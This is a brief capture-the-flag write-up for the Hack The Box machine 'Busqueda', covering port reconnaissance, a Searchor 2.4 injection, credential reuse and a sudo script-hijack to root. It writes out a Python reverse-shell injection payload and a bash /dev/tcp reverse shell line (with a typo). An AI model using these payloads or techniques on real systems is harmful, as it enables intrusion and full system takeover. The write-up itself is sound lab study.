 # Busqueda

### Reconnaissance

- port 22 SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- port 80 HTTP Apache httpd 2.4.52

### Exploitation

Searchor v 2.4 has an [RCE vulnerability](https://github.com/jonnyzar/POC-Searchor-2.4.2) in the query parameter 

Start a netcat listener and get a reverse shell with this

`', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`

Ran linpeas but got thrown by the output, ended up getting help here [from this walkthrough](https://medium.com/@cybrpunk_panda/busqueda-writeup-hack-the-box-2c131b638491)

In the /var/html/app directory there's a .git folder with a config file containing credentials.

The user is cody but the password works for svc giving me ssh access and the ability to run sudo -l

### Privilege Escalation

sudo -l shows the svc user can run a python script in /opt/scripts as root, `/opt/scripts/system-checker.py`. 
By navigating to a writable directory and creating a reverse shell script with the same name as one of the 
options for the python script you can get root access

```
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py

Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

	docker-ps		: List running docker containers
	docker-inspect	: Inpect a certain docker container
	full-checkup	: Run a full system checkup
```

bash reverse shell, full-checkup.sh

`bash -i >$ /dev/tcp/10.10.10.10/4444 0>&1`

Run script with sudo privileges in same folder as bash reverse shell to gain a root shell

`sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

